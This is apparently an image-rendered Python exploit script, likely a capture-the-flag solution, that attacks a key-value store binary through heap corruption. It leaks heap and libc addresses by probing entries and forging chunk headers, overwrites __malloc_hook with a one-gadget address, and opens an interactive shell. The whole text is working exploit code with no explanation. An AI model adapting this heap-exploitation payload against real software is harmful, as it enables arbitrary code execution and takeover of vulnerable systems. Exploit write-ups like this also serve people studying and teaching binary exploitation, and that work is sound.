 ```python
def add_entry(name,size,value):
    choice(1)
    sa(":",name)
    sla(":",str(size))
    sa(":",value)

def edit_entry(name,value):
    choice(3)
    sa(":",name)
    sa(":",value)

def print_entry(name):
    choice(2)
    sa(":",name)

def getcheck(idx):
    res=''
    payloads=os.popen("python more.py "+str(idx)).read().strip('\n')
    payloads=payloads.split(' + ')
    for i in payloads:
        res+=p8(int(i))
    return res

if __name__ == '__main__':
    thename='\xa1\xf8\xe6\xa9'
    a=[]
    for i in range(32):
        a.append(getcheck(12+i))
        add_entry(a[i],0x10,'123')
    add_entry(thename,0x10,'fuckme')
    res=0
    for i in range(32):
        print_entry(a[i])
        if "No such entry!" in rl():
            continue
        res+=1<<(12+i)
    heap_addr=res+0x500000000000
    lg("heap addr",heap_addr)
    pl=p64(0)*1+p64(heap_addr+0xc30)+p64(heap_addr+0xd38+(0x1000<<47))
    add_entry(getcheck(5),0x80,pl)
    edit_entry(thename,p64(0x2d1))
    add_entry('1234',0x300,'1234')
    print_entry(thename)
    ru("Value: ")
    rv(16)
    libc_addr=raddr()-0x3c4e18
    lg("libc_addr",libc_addr)
    libc.address=libc_addr 
    pl=p64(0x21)+'1234\x00\x00\x00\x00'+p64(0)*4+p64(heap_addr+0xd40)+p64(libc.symbols['__malloc_hook']+(0x8<<48))
    edit_entry(thename,pl)
    edit_entry('1234',p64(libc.address+0xf1147))
    p.interactive()
```

